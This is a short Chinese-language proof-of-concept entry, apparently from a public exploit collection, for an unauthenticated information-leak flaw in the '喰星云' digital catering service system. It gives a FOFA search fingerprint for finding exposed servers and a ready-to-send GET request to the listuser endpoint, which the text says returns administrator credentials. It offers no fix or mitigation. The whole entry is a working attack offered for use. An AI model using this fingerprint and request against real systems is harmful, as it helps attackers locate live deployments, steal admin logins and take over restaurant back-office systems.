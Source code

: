 ## 喰星云-数字化餐饮服务系统listuser信息泄露漏洞

喰星云·数字化餐饮服务系统 listuser 接口处存在信息泄露漏洞，未经身份验证的远程攻击者可利用此漏洞读取后台管理员账号密码登录凭证信息，导致后台权限被控，造成信息泄露，使系统处于极不安全的状态。

## fofa

```
body="tmp_md5_pwd"
```

## poc

```
GET /chainsales/head/user/listuser HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407031710747.png)